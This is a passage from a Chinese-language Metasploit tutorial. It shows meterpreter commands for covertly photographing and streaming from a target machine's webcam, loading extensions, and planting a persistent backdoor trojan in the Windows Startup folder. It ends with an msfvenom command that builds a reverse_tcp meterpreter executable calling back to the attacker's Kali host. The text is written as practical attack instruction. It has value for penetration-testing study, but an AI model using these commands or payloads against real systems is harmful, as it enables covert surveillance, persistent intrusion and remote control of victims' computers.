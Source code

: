 ### **7.17 用目标主机摄像头拍照：**

```apl
webcam_list    #获取目标系统的摄像头列表
webcam_snap    #从指定的摄像头，拍摄照片
webcam_stream  #从指定的摄像头，开启视频
```

### **7.18 常用扩展库介绍**

meterpreter中不仅有基本命令还有很多扩展库，下面就介绍一下常用的扩展库的查看方法。

```apl
load/use     #加载模块
load -l      #列出所有可用的扩展
load -help   #帮助；说明
run          #执行一个已有的模块
```

注：这里输入run后，双击Tab键列出所有的已有的脚本；

### **7.19 生成持续性后门（重点）：**

因为`meterpreter` 是基于`内存DLL`建立的连接，所以，只要目标主机关机，我们的连接就会断。总不可能我们每次想连接的时候，每次都去攻击，然后再利用 meterpreter 建立连接。所以，我们得在目标主机系统内留下一个持续性的后门，只要目标主机开机了，我们就可以连接到该主机。

建立持续性后门有两种方法，一种是通过`启动项启动(persistence)`，一种是通过`服务启动(metsvc)`

### **7.19.1 启动项启动：**

启动项启动的话，我们先生成一个后门木马。

需要去学习怎么生成后门木马 todo

然后放到`windows的启动目录`中：

```bash
C:\Users\$username$\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup
```

这样这个后门每次开机就都能启动了，然后我们只要相连就监听相应的端口就行了。

# msf制作反弹shell

## 1.制作反弹shell-exe文件

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=kaili的ip地址 LPORT=5577 -f exe -o /root/test.exe

LHOST    kaili的ip地址
LPORT    为反弹端口
test.exe 为生成文件
```

木马生成成功：
